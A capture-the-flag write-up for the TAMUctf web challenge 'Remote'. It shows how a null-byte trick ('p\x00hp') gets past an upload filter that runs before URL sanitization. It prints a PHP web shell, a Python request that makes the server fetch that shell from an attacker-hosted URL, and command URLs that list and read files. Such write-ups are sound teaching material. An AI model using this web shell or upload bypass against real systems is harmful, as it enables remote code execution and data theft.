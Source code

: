 # Remote

- name: Remote
- points: 454
- categories
  - web
- attachments
  - [`remote.zip`](remote.zip)

## solution

Host a server serving the following content:

```PHP
<?php
if (isset($_REQUEST['command'])) {
  $command = $_REQUEST['command'];
  system($command);
}
?>
```

It is simply the standard PHP web shell. The server URL should end with a `.php` file extension.

Register for an account and login in a browser. Grab the `PHPSESSID` cookie. Using the `PHPSESSID` cookie, upload an image using the following Python code:

```Python
from requests import post
with post(
    "https://remote.tamuctf.com/index.php",
    cookies={
        "PHPSESSID": "(your PHPSESSID)",
    },
    data={
        "url": "(the URL pointing to your PHP web shell, with `php` replaced by `p\x00hp`)",
    },
) as req:
    print(req.url)
```

Submit the request.

Now, if you go to your browser and look at the webpage, there should be a broken file. Inspect the HTML and find its location. Now, we can use the web shell.

Since the description mentions that the flag is in `/var/www` (actually, the flag location changed at least once during the challenge, probably because people are messing with the flag using their web shells), we will list the directory of `/var/www` first. Example URL: `https://remote.tamuctf.com/uploads/076e1af51b5e3fbc74f525b3baa5f459/8zb1koqwpl5mo2qihbe2btfgaknrj5v2.php?command=ls%20/var/www` (for reference). Afterwards, we should find the flag file. `cat` the file: `https://remote.tamuctf.com/uploads/076e1af51b5e3fbc74f525b3baa5f459/8zb1koqwpl5mo2qihbe2btfgaknrj5v2.php?command=cat%20/var/www/flag-de88df3ebf2f0c4bf871ddfb2e0fcce4.txt` (for reference). Finally, the flag is `gigem{new_features_means_new_opportunities}`.

## process

The webpage is an image uploader. After uploading the image, you can see the uploaded images.

Let's look into the source in [`remote/src/`](remote/src/). We can find [`bulletproof.php`](remote/src/bulletproof.php) and [`index.php`](remote/src/index.php). The `bulletproof.php` file seems bulletproof (pun intended), after checking whether it is not modified from the original source: <https://github.com/samayo/bulletproof/releases/tag/v4.0.0>. It is unlikely we will find an exploit there (or if there is, very difficult). Instead, we turn to `index.php`.

We will only consider POST requests since it is the only place where we have user inputs. For POST, there are two ways to input stuff: uploading a file directly or uploading a file via a URL. Uploading a file does not seem exploitable, as it simply uses the `Bulletproof\Image` class. The other function would probably yield something...

For PHP upload challenges, generally we usually want to somehow upload an arbitrary with `.php` extension to the server and execute it. Looking into the URL upload, it filters the URL and detect code URLs, sanitize it, and then validate it. Then the file extension is directly extracted from the URL (i.e. whatever extension the URL has).

```PHP
if(!preg_match("/(htm)|(php)|(js)|(css)/", $_REQUEST['url'])) {
  $url = filter_var($_REQUEST['url'], FILTER_SANITIZE_URL);
  if(filter_var($url, FILTER_VALIDATE_URL)) {
    $img = file_get_contents($url);
    if($img !== false) {
      $mime = substr($url, strrpos($url, '.') + 1);
      $file = random_filename(32, 'uploads/' . $sess, $mime);

      $f = fopen('uploads/' . $sess . '/' . $file, "wb");
```

At first, it looks like we cannot upload a PHP file, because if there is `php` in the URL, then it fails. However, because it filters the URL _before_ sanitizing the URL, we can construct a URL such that it does not contain `php`, but after sanitization, contains `php`. Then, the filter is bypassed. Considering that `FILTER_SANITIZE_URL` filters out control characters, inputting a URL with control characters work: `http://example.com/file.p\x00hp`, which gets sanitized to `http://example.com/file.php`. Then we would have uploaded a PHP file to the server.

Now, one problem is whether we know where the PHP file is. It turns out we do, because the server webpage lists all uploaded images (and non-image files).

Then the rest is uploading a web shell and getting the flag, as outlined in [§ solution](#solution). It is not too difficult, but in the actual challenge, you can probably see other people messing with other server files (hopefully not the flag file).
